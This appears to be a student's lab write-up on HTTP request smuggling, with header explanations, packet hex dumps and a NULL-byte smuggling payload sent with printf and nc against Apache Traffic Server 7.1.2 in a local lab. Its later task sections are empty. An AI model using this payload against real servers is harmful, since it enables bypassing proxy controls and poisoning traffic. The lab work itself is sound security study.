

# Task 1

## A)

HTTP request smuggling vulnerabilities occur due to inconsistencies in how proxy servers and backend servers interpret and process certain HTTP request headers, such as Content-Length (CL) and Transfer-Encoding (TE). Attackers exploit these inconsistencies to generate malicious requests that make the front-end and back-end servers interpret differently, leading to security vulnerabilities.

There are four main techniques that used in smuggling attacks as; 
1. CL.TE
2. TE.CL
3. CL.CL
4. TE.TE

- In CL.TE attacks, the front-end proxy server processes the Content-Length header, while the backend server processes the Transfer-Encoding header. Attackers craft a request with both Content-Length and Transfer-Encoding headers. The proxy server reads the Content-Length and considers the request complete, while the backend server reads the Transfer-Encoding and interprets the request differently, leading to smuggling making this technique relies on the proxy and backend servers handling different headers.

- Similar to CL.TE, in TE.CL attacks, the front-end proxy server processes the Transfer-Encoding header, while the backend server processes the Content-Length header. Attackers craft a request with both Transfer-Encoding and Content-Length headers. The proxy server reads the Transfer-Encoding and considers the request complete, while the backend server reads the Content-Length and interprets the request differently, leading to smuggling. 

- In TE.TE attacks, the attacker obfuscates the Transfer-Encoding header to confuse one of the servers into not processing it. By sending a request with multiple Transfer-Encoding headers or using non-standard values for Transfer-Encoding, the attacker aims to bypass header processing on either the front-end proxy or the backend server. This technique exploits the differences in how servers interpret and handle Transfer-Encoding headers.

**In which version of HTTP is this vulnerability present?**

These vulnerabilities are being reported to occur in HTTP/1. 

**Why is it present in this specific HTTP version?**

The reason for this vulnerability is because introduced features like persistent connections (Keep-Alive) and pipelining, which allowed multiple requests to be sent over the same connection without waiting for responses complicating header interpretation and processing, creating opportunities for smuggling attacks.

**How is the mechanism different?**

The mechanism differs based on how proxy servers and backend servers handle various headers, such as Content-Length and Transfer-Encoding. Attackers exploit inconsistencies in header processing to craft requests that are interpreted differently by different servers, allowing them to bypass security controls and potentially manipulate or access sensitive data.

## B) 

The `check.sh` was executed successfully as shown below. 


The traffic through the loopback interface of the host machine is captured using Wireshark and the response was generated as below. There are 2 HTTP responses with the GET request and the response of the server. 


The HTTP GET request of the LNMP server captured in the Wireshark is shown below. 

```
0000   00 00 00 00 00 00 00 00 00 00 00 00 08 00 45 00   ..............E.
0010   01 e8 8b bd 40 00 40 06 af 50 7f 00 00 01 7f 00   ....@.@..P......
0020   00 01 99 da 23 34 ae e9 15 5e c6 be 02 14 80 18   ....#4...^......
0030   01 04 ff dc 00 00 01 01 08 0a 57 ee 3d d5 57 ee   ..........W.=.W.
0040   3d a5 47 45 54 20 2f 20 48 54 54 50 2f 31 2e 31   =.GET / HTTP/1.1
0050   0d 0a 48 6f 73 74 3a 20 31 32 37 2e 30 2e 30 2e   ..Host: 127.0.0.
0060   31 3a 39 30 31 32 0d 0a 55 73 65 72 2d 41 67 65   1:9012..User-Age
0070   6e 74 3a 20 4d 6f 7a 69 6c 6c 61 2f 35 2e 30 20   nt: Mozilla/5.0 
0080   28 58 31 31 3b 20 4c 69 6e 75 78 20 78 38 36 5f   (X11; Linux x86_
0090   36 34 3b 20 72 76 3a 31 32 31 2e 30 29 20 47 65   64; rv:121.0) Ge
00a0   63 6b 6f 2f 32 30 31 30 30 31 30 31 20 46 69 72   cko/20100101 Fir
00b0   65 66 6f 78 2f 31 32 31 2e 30 0d 0a 41 63 63 65   efox/121.0..Acce
00c0   70 74 3a 20 74 65 78 74 2f 68 74 6d 6c 2c 61 70   pt: text/html,ap
00d0   70 6c 69 63 61 74 69 6f 6e 2f 78 68 74 6d 6c 2b   plication/xhtml+
00e0   78 6d 6c 2c 61 70 70 6c 69 63 61 74 69 6f 6e 2f   xml,application/
00f0   78 6d 6c 3b 71 3d 30 2e 39 2c 69 6d 61 67 65 2f   xml;q=0.9,image/
0100   61 76 69 66 2c 69 6d 61 67 65 2f 77 65 62 70 2c   avif,image/webp,
0110   2a 2f 2a 3b 71 3d 30 2e 38 0d 0a 41 63 63 65 70   */*;q=0.8..Accep
0120   74 2d 4c 61 6e 67 75 61 67 65 3a 20 65 6e 2d 55   t-Language: en-U
0130   53 2c 65 6e 3b 71 3d 30 2e 35 0d 0a 41 63 63 65   S,en;q=0.5..Acce
0140   70 74 2d 45 6e 63 6f 64 69 6e 67 3a 20 67 7a 69   pt-Encoding: gzi
0150   70 2c 20 64 65 66 6c 61 74 65 2c 20 62 72 0d 0a   p, deflate, br..
0160   43 6f 6e 6e 65 63 74 69 6f 6e 3a 20 6b 65 65 70   Connection: keep
0170   2d 61 6c 69 76 65 0d 0a 55 70 67 72 61 64 65 2d   -alive..Upgrade-
0180   49 6e 73 65 63 75 72 65 2d 52 65 71 75 65 73 74   Insecure-Request
0190   73 3a 20 31 0d 0a 53 65 63 2d 46 65 74 63 68 2d   s: 1..Sec-Fetch-
01a0   44 65 73 74 3a 20 64 6f 63 75 6d 65 6e 74 0d 0a   Dest: document..
01b0   53 65 63 2d 46 65 74 63 68 2d 4d 6f 64 65 3a 20   Sec-Fetch-Mode: 
01c0   6e 61 76 69 67 61 74 65 0d 0a 53 65 63 2d 46 65   navigate..Sec-Fe
01d0   74 63 68 2d 53 69 74 65 3a 20 6e 6f 6e 65 0d 0a   tch-Site: none..
01e0   53 65 63 2d 46 65 74 63 68 2d 55 73 65 72 3a 20   Sec-Fetch-User: 
01f0   3f 31 0d 0a 0d 0a                                 ?1....

```

The 200 response for the above request is mentioned below. 

```
0000   00 00 00 00 00 00 00 00 00 00 00 00 08 00 45 00   ..............E.
0010   02 d6 99 c8 40 00 40 06 a0 57 7f 00 00 01 7f 00   ....@.@..W......
0020   00 01 23 34 99 da c6 be 02 14 ae e9 17 12 80 18   ..#4............
0030   01 04 00 cb 00 00 01 01 08 0a 57 ee 41 6f 57 ee   ..........W.AoW.
0040   3d d5 48 54 54 50 2f 31 2e 31 20 32 30 30 20 4f   =.HTTP/1.1 200 O
0050   4b 0d 0a 53 65 72 76 65 72 3a 20 6e 67 69 6e 78   K..Server: nginx
0060   0d 0a 44 61 74 65 3a 20 4d 6f 6e 2c 20 32 39 20   ..Date: Mon, 29 
0070   41 70 72 20 32 30 32 34 20 32 31 3a 34 39 3a 30   Apr 2024 21:49:0
0080   31 20 47 4d 54 0d 0a 43 6f 6e 74 65 6e 74 2d 54   1 GMT..Content-T
0090   79 70 65 3a 20 74 65 78 74 2f 68 74 6d 6c 3b 20   ype: text/html; 
00a0   63 68 61 72 73 65 74 3d 55 54 46 2d 38 0d 0a 54   charset=UTF-8..T
00b0   72 61 6e 73 66 65 72 2d 45 6e 63 6f 64 69 6e 67   ransfer-Encoding
00c0   3a 20 63 68 75 6e 6b 65 64 0d 0a 43 6f 6e 6e 65   : chunked..Conne
00d0   63 74 69 6f 6e 3a 20 6b 65 65 70 2d 61 6c 69 76   ction: keep-aliv
00e0   65 0d 0a 43 6f 6e 74 65 6e 74 2d 45 6e 63 6f 64   e..Content-Encod
00f0   69 6e 67 3a 20 67 7a 69 70 0d 0a 0d 0a 31 64 62   ing: gzip....1db
0100   0d 0a 1f 8b 08 00 00 00 00 00 04 03 5d 91 6f 4f   ............].oO
0110   db 30 10 c6 df f3 29 6e 7d 55 58 d2 c4 1d a5 85   .0....)n}UX.....
0120   96 4e 68 c0 98 94 8e 89 52 6d d2 34 4d 6e 72 4d   .Nh.....Rm.4MnrM
0130   2c 5c 3b 38 4e 09 4c fb ee bb fc 79 b1 58 b6 25   ,\;8N.L....y.X.%
0140   eb fc bb f3 73 cf 2d 32 b6 8c be ae be 2d 02 ba   ....s.-2.....-..
0150   2c e8 dc dd 44 d1 3d 7c bf 7f 88 ae df 35 41 78   ,...D.=|.....5Ax
0160   cc 44 01 b4 6b 0c b8 4a c0 66 08 07 2e 4b 2c 60   .D..k..J.f...K,`
0170   8b 52 bf 40 26 d2 4c d2 b1 cd 93 2e 6d 5e 5a d0   .R.@&.L.....m^Z.
0180   3b 30 f8 4c 90 85 0c 79 82 86 8a a8 a6 c8 62 6b   ;0.L...y......bk
0190   96 f5 e1 c6 f0 d7 21 fb 70 0c 7f 8e 00 7e 0e d6   ......!.p....~..
01a0   18 fb b7 68 e3 cc df 14 68 06 bf 2e 97 14 2e ac   ...h....h.......
01b0   11 2a 1d 8e 8f 61 f0 91 0d 1c 6e 2d 2c f6 b9 53   .*...a....n-,..S
01c0   e2 94 56 e8 92 2b 9d 38 e4 ac 26 f9 41 a4 9c 6a   ..V..+.8..&.A..j
01d0   38 75 af 49 75 bf 6e 4d 27 3a 2e f7 a8 6c 4b 6f   8u.Iu.nM':...lKo
01e0   f2 d4 50 5b fe 17 55 60 5c 1a f4 1f da 6e 8b 7e   ..P[..U`\....n.~
01f0   22 a3 c4 4e f7 27 ad 14 c6 56 68 e5 20 21 31 4f   "..N.'...Vh. !1O
0200   88 b9 cf a5 38 74 62 ae e2 18 73 eb df a8 58 27   ....8tb...s...X'
0210   64 80 93 31 a5 8c f4 4d e4 1e 24 b8 93 d4 81 07   d..1...M..$.....
0220   5b d3 ea ea 12 23 ae d2 92 a7 4e d3 ac f6 07 95   [....#....N.....
0230   bf 59 7b a8 e6 cf 97 e1 68 f2 7f 56 ff 97 d9 84   .Y{.....h..V....
0240   60 8b 95 0d 32 bb 97 1e cf 73 29 62 5e eb 0f aa   `...2....s)b^...
0250   3a f2 be 72 a3 7b d9 d4 3c f7 c4 9e be 0e c8 dd   :..r.{..<.......
0260   5d 77 7d c1 6d ee 9d 04 27 cd fb ac 73 90 a6 ec   ]w}.m...'...s...
0270   5f a5 b5 a3 bd 59 4f 6b 3f 56 fa 4d 48 c9 83 c9   _....YOk?V.MH...
0280   28 84 e1 0f c6 e6 10 09 55 56 50 cd ce 7e 9f 9d   (.......UVP..~..
0290   ce c1 1c 2e d8 98 8d 08 fd 8c f1 93 0e c6 21 0b   ..............!.
02a0   69 33 b8 15 06 77 ba 0a 9a d7 f6 a3 3b ed 8e b3   i3...w......;...
02b0   f1 81 8d a7 a3 90 16 bb 38 0f d9 b8 45 69 46 96   ........8...EiF.
02c0   04 f9 11 aa d4 66 7d 5d b5 ac 3e f5 f8 9a 3b 06   .....f}]..>...;.
02d0   b7 cc df a3 7f 25 69 61 a6 58 03 00 00 0d 0a 30   .....%ia.X.....0
02e0   0d 0a 0d 0a                                       ....

```

The overall process is, that the HTTP request asks for the root from the LNMP server and it responds with a `200 OK` status. Below image shows the web GUI of the LNMP server with the content of the server on it. Some of the header details are included in the content of the file as well. 



The packet details are as follows:

- **Headers of the HTTP GET request**:
  - `Host` has specified the host and port the client is trying to reach (`127.0.0.1:9012`).
  - `User-Agent` provides information about the client software making the request (`Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0`).
  - `Accept` informs the server about the types of content that the client can understand.
  - `Accept-Language` indicates the preferred language of the client (`en-US`).
  - `Accept-Encoding` specifies the content encoding that the client can handle (`gzip`, `deflate`, `br`).
  - `Connection` specifies whether the connection should be kept alive after the current request/response.
  - `Upgrade-Insecure-Requests` indicates whether the client supports upgrading insecure requests to secure ones (`1`).
  - There are some other headers as; `Sec-Fetch-Dest`, `Sec-Fetch-Mode`, `Sec-Fetch-Site` and, `Sec-Fetch-User`

- **Headers of HTTP 200 OK Response**:
  - `Server` specifies the software and version running on the server (`nginx`).
  - `Date` indicates the date and time when the response was generated.
  - `Content-Type` specifies the MIME type and character encoding of the response body (`text/html; charset=UTF-8`).
  - `Transfer-Encoding` indicates the form of encoding used to transfer the data (`chunked`).
  - `Connection` specifies whether the connection should be kept alive after the current request/response.
  - `Content-Encoding` specifies the content encoding used for the response body (`gzip`).

As for conducting the HTTP request smuggling, the `Transfer-Encoding` header can be seein above packet with the encoding type of `chunked`. 

## C)

I tried both of the two HTTP packets to generate the two consecutive 400 responses. Each request has generated 


The vulnerability is in the way Apache Traffic Server (ATS) version 7.1.2 behaves, which prevents the established TCP link from being terminated if a request results in a 400 error. Furthermore, ATS executes a truncation operation if it comes across a NULL character when parsing a request.

I created the smuggling attack using a NULL character in the middle of the request. There are two parts of the request. The first part remains the same as the given command. 

```
GET / HTTP/1.1\r\n
Host: lnmp.com\r\n
aa:
```

I adjusted the second part to another valid HTTP request followed by the `bb\r\n` where `\r\n` indicates the end of the header section. The new request starts in the next line and is properly terminated with the `\r\n`. 

```
bb\r\n
GET / HTTP/1.1\r\n
Host: lnmp.com\r\n
\r\n
```

The two parts should be connected with a NULL character and the final request appears as below. 

```terminal
printf 'GET / HTTP/1.1\r\n'\
'Host: lnmp.com\r\n'\
'aa: \0bb\r\n'\
'GET / HTTP/1.1\r\n'\
'Host: lnmp.com\r\n'\
'\r\n'\
| nc 127.0.0.1 9010
``` 

When the ATS server parses the crafted request, it encounters the NULL character after `aa:`. This causes it to treat the second part of the request (bb\r\n...) as a separate HTTP request.
The ATS server then processes the second part as a new HTTP request, resulting in the smuggling attack.

The attack is shown below. The successful `200 OK` can be seen in the second HTTP request. 


# Task 2


# Task 3

